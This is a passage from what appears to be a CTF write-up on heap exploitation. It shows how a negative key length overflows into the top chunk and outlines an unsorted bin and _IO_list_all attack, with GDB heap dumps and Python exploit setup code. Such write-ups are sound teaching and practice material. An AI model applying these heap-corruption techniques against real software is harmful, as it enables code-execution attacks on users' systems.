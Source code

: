 #### ~ Overflow

By carefully requesting a chunk of a certain size we can achieve 2 overflows with the former one causing the latter. 
What do I mean by that? What's going to happen if we provide `-0x10` as the key length? Well, `malloc` will be called with size
**0x10** (which will be aligned to 0x20) and then it will read in **0x20** bytes for the title and **0x00** for the key.
Let me show how that transition looks like.

Before: 

```
0x603000:	0x0000000000000000	0x0000000000000021 <-- alloc'd chunk
0x603010:	0x0000000000000000	0x0000000000000000
0x603020:	0x0000000000000000	0x0000000000020fe1 <-- top chunk
```

After:

```
0x603000:	0x0000000000000000	0x0000000000000021 <-- alloc'd chunk
0x603010:	0x4141414141414141	0x4141414141414141
0x603020:	0x4141414141414141	0x0041414141414141 <-- top chunk
```

As you can see, the wilderness got overwritten! With that overflow in mind, we can achieve chunk overlapping during `edit` and
overwrite important values on chunks further in memory such as the FD/BK pointers of an unsorted/fast bin and whatnot. From now on,
it's a matter of personal preference. I chose to pwn the binary by performing `unsorted bin attack` followed by an `_IO_list_all attack`. 
You can read more about the latter [here](http://4ngelboy.blogspot.gr/2016/10/hitcon-ctf-qual-2016-house-of-orange.html) and
[here](http://uaf.io/exploitation/2017/09/03/TokyoWesterns-2017-Parrot.html). They've both done a pretty decent job explaining
the internals of the attack so I won't go over the hows and whys.

Let's start visualizing the binary's internals.

```python
# This is gonna be our victim chunk later on
alloc(0xa0, 'A'*8, 'A'*8) 
alloc(0x60, 'B'*8, 'B'*8) 
# p64(0x31) is there to signify later on to musable() 
# that the current chunk is actually in use
alloc(0x80, 'C'*8, p64(0x31)*8)
```

```
0x603000:	0x0000000000000000	0x00000000000000d1 <-- chunk 0
0x603010:	0x4141414141414141	0x0000000000000000
0x603020:	0x0000000000000000	0x0000000000000000
0x603030:	0x4141414141414141	0x0000000000000000
0x603040:	0x0000000000000000	0x0000000000000000
0x603050:	0x0000000000000000	0x0000000000000000
0x603060:	0x0000000000000000	0x0000000000000000
0x603070:	0x0000000000000000	0x0000000000000000
0x603080:	0x0000000000000000	0x0000000000000000
0x603090:	0x0000000000000000	0x0000000000000000
0x6030a0:	0x0000000000000000	0x0000000000000000
0x6030b0:	0x0000000000000000	0x0000000000000000
0x6030c0:	0x0000000000000000	0x0000000000000000
0x6030d0:	0x0000000000000000	0x0000000000000091 <-- chunk 1
0x6030e0:	0x4242424242424242	0x0000000000000000
0x6030f0:	0x0000000000000000	0x0000000000000000
0x603100:	0x4242424242424242	0x0000000000000000
0x603110:	0x0000000000000000	0x0000000000000000
0x603120:	0x0000000000000000	0x0000000000000000
```